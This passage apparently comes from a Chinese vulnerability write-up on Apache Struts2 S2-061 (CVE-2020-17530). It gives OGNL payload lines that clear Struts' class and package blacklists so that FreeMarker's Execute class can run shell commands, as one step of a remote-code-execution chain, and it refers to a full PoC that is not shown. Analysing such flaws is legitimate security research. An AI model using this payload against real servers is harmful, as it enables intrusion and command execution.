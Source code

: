 清7空黑名单的ognl代码

```
# 注意，自行调试的话，需要分两次执行
   #application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet'))

   #application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet'))
```

这里就可以使用黑名单中的`freemarker.template.utility.Execute`类中的`exec`方法执行Shell了。需要最少和前面的8一起使用，才能执行成功。可以直接使用最后面的完整poc代码执行。

[![img](.resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t014b4b37153a9ab5bc.png)](https://p2.ssl.qhimg.com/t014b4b37153a9ab5bc.png)

[![img](.resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t0107791381f8c2bd7b.png)](https://p2.ssl.qhimg.com/t0107791381f8c2bd7b.png)
